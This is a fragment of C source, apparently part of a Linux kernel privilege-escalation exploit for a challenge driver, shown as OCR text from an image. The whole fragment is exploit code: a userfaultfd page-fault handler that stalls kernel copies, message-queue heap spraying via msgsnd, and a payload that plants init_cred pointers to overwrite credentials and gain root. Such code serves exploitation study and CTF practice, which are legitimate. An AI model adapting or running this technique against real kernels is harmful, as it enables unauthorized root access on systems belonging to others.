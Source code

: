 ```c

void del_rule(user_rule_t *rule) {
  int ret = 0;
  ret = ioctl(global_fd, DELETE_RULE, rule);
  if (ret < 0) {
    die("[!] Failed to del rule");
  }
}

void send_msg(int id, void *buf, size_t size, int flags) {
  if (msgsnd(id, buf, size, flags) < 0) {
    die("[!] Failed to send msg");
  }
  printf("[+] Send message: 0x%lx\n", size);
}

static void fault_handler_2(void *arg) {
  puts("[+] Enter userpagefault 2");

  static struct uffd_msg uf_msg;
  uint64_t uffd = (uint64_t)arg;
  struct pollfd pollfd;
  int nready;

  pollfd.fd = uffd;
  pollfd.events = POLLIN;

  puts("[+] user2 polling...");
  while ((nready = poll(&pollfd, 1, -1)) > 0) {
    if (pollfd.revents & POLLERR || pollfd.revents & POLLHUP) {
      die("[!] poll failed\n");
    }
    if ((read(uffd, &uf_msg, sizeof(uf_msg))) == 0) {
      die("[!] read uffd msg failed\n");
    }
    if (uf_msg.event != UFFD_EVENT_PAGEFAULT) {
      die("[!] unexpected pagefault\n");
    }

    printf("[+] user 2 page fault: %p\n", (void *)uf_msg.arg.pagefault.address);
    printf("[*] Release uffd 1\n");
    struct uffdio_copy uc;

    bzero(&uc, sizeof(struct uffdio_copy));
    // use uffdio_copy to write request's message
    uc.src = (unsigned long)msg_buf;
    uc.len = PAGE_SIZE;
    uc.dst = (unsigned long)0x1338000 & ~(PAGE_SIZE - 1);
    uc.mode = 0;
    uc.copy = 0;
    if (ioctl(u1, UFFDIO_COPY, &uc) == -1) {
      die("[!] Failed to uffdio_copy");
    }

    char *payload = calloc(1, 0x2000);
    *((uint64_t *)(payload + 0xfd0 - 8)) = init_cred;
    *((uint64_t *)(payload + 0xfd0)) = init_cred;
    *((uint64_t *)(payload + 0xfd0 + 8)) = init_cred;
    uffd_copy(uffd, payload, &uf_msg);

    break;
  }
  puts("[+] exit userpagefault 2 fault_handler!");
```